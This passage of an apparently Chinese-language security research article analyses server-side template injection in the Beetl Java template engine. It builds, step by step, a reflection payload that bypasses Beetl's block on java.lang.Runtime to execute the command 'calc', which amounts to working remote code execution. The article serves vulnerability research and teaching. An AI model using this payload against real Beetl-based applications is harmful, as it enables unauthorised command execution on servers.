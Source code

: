    前期可以修改代码机制我们已经了解的很清楚了，没有做任何的防护措施。但这些远远达不到 SSTI 的要求。`判断一个系统或者CMS是否使用了任何一个模板引擎`，先有比较大众 Java 模板引擎有 Velocity，Freemarker，而这款模板引擎是 beetl，挖掘之间根本没有了解过。据查阅知道，这是一款国产的模板引擎。[官方地址](http://ibeetl.com/)，官网说有很多优势，感觉一般般，吹牛的水分比较大吧。在研究这个模板的时候，官方给[文档](http://ibeetl.com/guide/#/beetl/)真的很差，有些东西说的一知半解没有说清楚。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201222130302-f7dce25a-4412-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201222130302-f7dce25a-4412-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201222130302-f82a8046-4412-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201222130302-f82a8046-4412-1.png)

#### 知识补充

   查阅官方文档，了解这款模板引擎调用 Java 方法和属性模式。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201222130303-f854766c-4412-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201222130303-f854766c-4412-1.png)  
   本文构造 payload 得有简单 Java 的反射机制基础。[推荐文章](https://www.cnblogs.com/haha12/p/4724204.html)，文章中用了一个简单案例再现了 Java 的反射。[推荐文章](https://blog.csdn.net/SECURE2/article/details/81099574?depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1&utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-1), 文章用很多解释是关于 Java 反射和类加载的知识内容。[新增] [推荐视频](https://www.bilibili.com/video/BV1s4411U7x9?from=search&seid=13854513651556834308)  
[video(video-hkteTk7M-1587384668444)(type-bilibili)(url-[https://player.bilibili.com/player.html?aid=63805421)(image-https://ss.csdn.net/p?http://i0.hdslb.com/bfs/archive/3ea308d0ab04ed422f45dc47274940762348f4fa.jpg)(title-【Java 反射机制】不懂反射机制不配当 java 程序员?](https://player.bilibili.com/player.html?aid=63805421)(image-https://ss.csdn.net/p?http://i0.hdslb.com/bfs/archive/3ea308d0ab04ed422f45dc47274940762348f4fa.jpg)(title-%E3%80%90Java%E5%8F%8D%E5%B0%84%E6%9C%BA%E5%88%B6%E3%80%91%E4%B8%8D%E6%87%82%E5%8F%8D%E5%B0%84%E6%9C%BA%E5%88%B6%E4%B8%8D%E9%85%8D%E5%BD%93java%E7%A8%8B%E5%BA%8F%E5%91%98?))]

#### Payload 构造

   这里笔者将 payload 拆解了，方便更好的解读一下 payload。由于 beetl 模板引擎禁止了`java.lang.Runtime`和`java.lang.Process`，所以这里不能直接调用进程来达到远程代码执行的效果。这里采用 Java 反射机制来达到效果，当然也有其他的方法，比例写文件等。读者们可以自行尝试。

```
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",
@java.lang.Class.forName("java.lang.String")).invoke(
@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
```

   **先忽视上面的 payload，下面会一步步解答，最后完整的 payload**  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201222130303-f8733ee4-4412-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201222130303-f8733ee4-4412-1.png)

1.  我们且看第一行，按照上面给出简单案例方法，我们应该这样子就可以了`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",String.class).invoke(newInstance(),"calc")`
2.  但是直接 String.class 直接写模板是找不到的，所以我们得继续构造 payload，将 String.class 转化`@java.lang.Class.forName("java.lang.String")`的形式，然后 payload 就变成下面这样子了。`@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(newInstance(),"calc")`
3.  照道理上面就可以直接使用了，但是呢 Runtime 类没有无参构造方法，因此不能使用 newInstance() 方法来实例化。只能通过调用 getRuntime() 方法来进行实例化。所以 newInstance() 得替换成`@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null)`最终 payload 就变成了下面这样子。
    
    ```
    ${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
    ```
    